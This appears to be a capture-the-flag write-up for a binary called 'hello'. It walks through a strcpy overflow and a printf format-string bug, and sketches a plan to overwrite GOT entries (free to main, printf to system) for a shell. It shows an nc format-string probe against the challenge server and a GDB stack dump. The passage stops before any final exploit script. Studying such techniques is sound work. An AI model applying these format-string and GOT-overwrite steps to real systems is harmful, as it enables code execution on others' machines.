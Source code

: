 
`main` has nothing really of interest except for an unusual unconstrained input method.  That input is then passed to `say_hello`:

```c
void say_hello(char *param_1)
{
  char local_88 [128];
  
  strcpy(local_88,param_1);
  printf("Hello, ");
  printf(local_88);
  puts("!");
  return;
}
```

Since `strcpy` is used vs `strncpy` (safer), and with no stack protection, then one _could_ smash the stack (see _unusual unconstrained input method_ above).  However, given there's also a format string vulnerability, there are multiple options.

Since this can be done with just format-string exploits, I went with that route.  The attack is pretty simple:

1. Overwrite GOT `free` with `main` for multiple _free_ passes while also leaking a libc address.
2. Overwrite GOT `printf` with `system` for a shell.

To do this, we're going to need a couple of offsets.

The first is the start of `local_88` in the stack:

```bash
# echo '%1$p' | nc chall.csivit.com 30046
What's your name?
Hello, 0x70243125!
```

Just increment the number until you get a match, in this case, `1`, was the first match and the offset (notice how after `Hello, `, the _string_ `%1$p` in hex).

The second offset is a libc address leak; start up `hello` in GDB and set a break point at the second `printf` in `say_hello` (`b *say_hello+58`), then `run`, enter `blah`, and then look at the stack:

```
0xffffd5f4│+0x0000: 0xffffd5f8  →  "blah" ← $esp
0xffffd5f8│+0x0004: "blah"
0xffffd5fc│+0x0008: 0xf7e4d400  →  <realloc+160> leave
0xffffd600│+0x000c: 0x00000010
0xffffd604│+0x0010: 0xf7fe4ff8  →  <_dl_fixup+184> mov edi, eax
0xffffd608│+0x0014: 0x080482f1  →  "realloc"
0xffffd60c│+0x0018: 0xf7faa7a0  →  0x00000000
0xffffd610│+0x001c: 0x0804b168  →  0x00000000
0xffffd614│+0x0020: 0x00021e98
0xffffd618│+0x0024: 0x00000000
0xffffd61c│+0x0028: 0xef101400
0xffffd620│+0x002c: 0x00000001
0xffffd624│+0x0030: 0x00000000
0xffffd628│+0x0034: 0xf7e4c40b  →  <_int_realloc+11> add ebx, 0x15dbf5
0xffffd62c│+0x0038: 0xf7faa000  →  0x001d7d6c
0xffffd630│+0x003c: 0x0804b160  →  "blah"
0xffffd634│+0x0040: 0xf7faa7a0  →  0x00000000
0xffffd638│+0x0044: 0x00000005
0xffffd63c│+0x0048: 0xf7e4d437  →  <realloc+215> add esp, 0x10
0xffffd640│+0x004c: 0x00000010
0xffffd644│+0x0050: 0x080487dc  →  0x00006325 ("%c"?)
0xffffd648│+0x0054: 0xffffd684  →  0x0804b160  →  "blah"
0xffffd64c│+0x0058: 0x00000000
0xffffd650│+0x005c: 0x00000010
```
